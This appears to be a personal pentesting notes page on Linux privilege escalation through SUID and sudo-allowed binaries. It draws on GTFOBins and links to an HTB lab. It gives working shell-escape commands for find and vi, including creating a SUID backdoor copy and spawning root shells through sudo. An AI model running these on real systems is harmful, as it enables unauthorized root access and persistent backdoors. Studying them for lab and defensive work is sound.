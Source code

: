 User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
xUser postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
---
title: Suid Binaries
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, privilege escalation
---


# Suid binaries

Resources: [https://gtfobins.github.io/](https://gtfobins.github.io/).


## Most used (by me)

### find

#### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
find . -exec /bin/sh \; -quit
```

#### SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit
```

#### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo find . -exec /bin/sh \; -quit
```

### vi

#### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
#one way
vi -c ':!/bin/sh' /dev/null

# another way
vi
:set shell=/bin/sh
:shell
```
Used at [HTB machine Vaccine](htb-vaccine.md).


#### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

